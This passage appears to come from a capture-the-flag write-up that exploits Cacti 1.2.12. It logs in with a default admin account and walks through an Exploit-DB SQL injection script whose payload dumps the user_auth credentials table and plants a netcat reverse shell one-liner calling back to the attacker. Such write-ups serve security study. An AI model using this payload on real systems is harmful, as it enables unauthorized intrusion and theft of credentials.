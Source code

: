We can see that the version of the application is **1.2.12**. Looking for exploits, we come across a SQL injection vulnerability at [https://www.exploit-db.com/exploits/49810](https://www.exploit-db.com/exploits/49810) that requires authentication. 

We try the db admin creds from before, however this does not work. Let us retry with the default cacti admin account - `admin`.

![cacti_login](/img/monitors/cacti_login.png)

We have sucessfully logged in.


## Shell as www-data

Now that we have credentials, we can revisit the [exploit](https://www.exploit-db.com/exploits/49810) we had found earlier for this version of Cacti. Let us download the exploit on to our machine and analyze what this exploit does.

Looking at the exploit code, we can see that once the login function is performed using the provided credentials, the `exploit` function is injecting a netcat reverse shell payload to call back to our machine on a listener port which we must we specify (specifically in the `rshell` variable). In the `payload` variable, we can see the actual SQL injection payload that is used to inject the reverse shell. The target path of this payload would be `/cacti/color.php?action=export&header=false&filter=1` where `filter` is the vulnerable parameter. 

```
def exploit(lhost, lport, session):
    rshell = urllib.parse.quote(f"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {lhost} {lport} >/tmp/f")
    payload = f"')+UNION+SELECT+1,username,password,4,5,6,7+from+user_auth;update+settings+set+value='{rshell};'+where+name='path_php_binary';--+-"

    exploit_request = session.get(url + f"/cacti/color.php?action=export&header=false&filter=1{payload}") #, proxies=proxies)

    print("\n[+] SQL Injection:")
    print(exploit_request.text)

    try:
        session.get(url + "/cacti/host.php?action=reindex", timeout=1) #, proxies=proxies)
    except Exception:
```